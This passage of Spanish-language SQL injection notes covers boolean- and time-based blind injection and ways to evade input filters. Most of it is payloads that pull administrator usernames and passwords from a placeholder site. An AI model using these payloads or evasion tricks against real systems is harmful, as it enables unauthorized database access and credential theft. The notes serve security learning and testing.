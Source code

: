 En caso de que no se pueda sacar el nombre de las tablas y columnas, se deberán extraer el nombre usando fuerza bruta.

# Boolean-Base Blind SQL Injection

En este caso la web no muestra ningún mensaje de error ni tampoco información.

Las inyecciones ciegas son muy lentas y pesadas de explotar. Por ese motivo se suelen automatizar.

```sql
http://dominio/noticias.php?id=1 AND 1=0 UNION SELECT substr(user_name,1,1)=‘a’ from administrators
```

Si el primer caracter del primer nombre de usuario es una 'a' será verdadero y no mostrará error

# Time-Base Blind SQL Injection

En este caso no se muestra ningún dato por pantalla, ni siquiera los errores.

Aun así se pueden realizar consultas con un sleep, esto permitirá extraer información dependiendo del tiempo que se demora la consulta.

```sql
http://dominio/noticias.php?id=1 AND 1=0 UNION
SELECT 1, substr(user_name,1,1)=‘a’ from administrators and sleep(5)
```

# Evitar filtros

Query de prueba:

```sql
SELECT usuario FROM usuarios WHERE usuario='' or 1=1 -- -'
```

- Poner comentarios en vez de ejemplos [ **'/**/or/**/1=0/**/#**]
  - -X
  - /_X_/
  - %00

```sql
SELECT usuario FROM usuarios WHERE usuario=''/**/or/**/1=0/**/#'
```

- Poner el payload en char [ **' CHAR(111, 114) 1=1**]

```sql
 SELECT usuario FROM usuarios WHERE usuario='' CHAR(111,114) 1=1-- -'
```

- Usar anti-comentarios [' and '1'='0' union/_!select_/pass from users#]

```sql
SELECT usuario FROM usuarios WHERE usuario='' and '1'='0' union/*!select*/pass from users#'
```

- Usar ofuscación simple [ ' and '1'='0' uNiOn SeLeCt pass fRoM users# ]
  - SELECT -> SeLeCt

```sql
SELECT usuario FROM usuarios WHERE usuario='' and '1'='0' uNiOn SeLeCt pass fRoM users#'
```

- Envitar AND y OR:
  - AND -> &&
  - OR -> ||
